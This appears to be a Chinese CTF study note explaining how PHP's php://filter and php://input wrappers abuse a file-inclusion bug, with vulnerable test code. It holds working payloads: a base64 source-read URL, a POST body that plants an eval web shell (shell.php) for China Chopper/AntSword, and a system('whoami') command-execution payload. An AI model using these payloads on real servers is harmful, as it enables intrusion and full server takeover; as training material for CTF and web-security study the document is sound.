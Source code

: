 php://输入输出流

PHP提供了一些杂项输入输出（i/o)流，允许访问PHP的输入输出流，标准输入输出和错误描述符，内存中，磁盘备份的临时文件流以及可以操作 其他读取写入文件资源的过滤器。

php://伪协议ctf中比较常用的两个协议是php://filter,php://input

其他还有的几个协议是：php://stdin,php://memory,php://temp



# 1.php://filter(本地磁盘文件进行读取）

元封装器，设计用于“数据流打开”时的“筛选过滤”应用，对本地磁盘文件进行读写。

用法：?filename=php://filter/read=convert.base64-encode/resource=xxx.php

条件：allow_url_fopen=on/off

           allow_url_include=on/off

测试代码：

```javascript
<?php
$filename=$_GET['filename'];
include($filename);
```

读取目录中的flag.php文件，在flag.php文件在浏览器执行之前将其编码成base64位，利用apache服务器遇到无法识别字符，当做txt文件输出的特性，将flag.php文件以base64编码形式输出。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/8787C2C5D9A4451A973C433482936393clipboard.png)

base64解码得到flag.php文件内容：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/556ED877645241CFB6DE0B401C9C21EFclipboard.png)



2.php://input

可以访问请求的原始数据的只读流。既可以直接读取到post上没有经过解析的原始数据。enctype="multipart/from-data"的时候php://input是无效的

用法：?filename=php://input

[post]：需要传输的数据。如：<?php phpinfo();?>

条件:allow_url_fopen:off/on

         allow_url_include:on

测试代码：

```javascript
<?php
$filename=$_GET['filename'];
include($filename);
```

这里利用Postman进行提交。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/CDBEBC849D7D43F889D735DCB1EABB13clipboard.png)

将获取到的html代码，用html文件的形式打开，获取到服务器的配置信息。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/898D5738FA4446AF9D6931C8A50594E0clipboard.png)



# 2.1利用php://input执行写入木马

用法：

[post] <?PHP fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/00756B616B3648129386D087EEBD41ABclipboard.png)

检查目录，发现目录下多了一个shell.php文件。

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/A5DBE6C741604F0E814BA706B9976711clipboard.png)

菜刀或者蚁剑连接。即可发现连接上整个服务器

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/A9C4F8CE4A4B46509FFF14CDAB3989DCclipboard.png)

# 2.2php://input执行命令行

用法：

[post] <?php system('whoami');?>

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/F88A36C9310847868944769531DE1473clipboard.png)

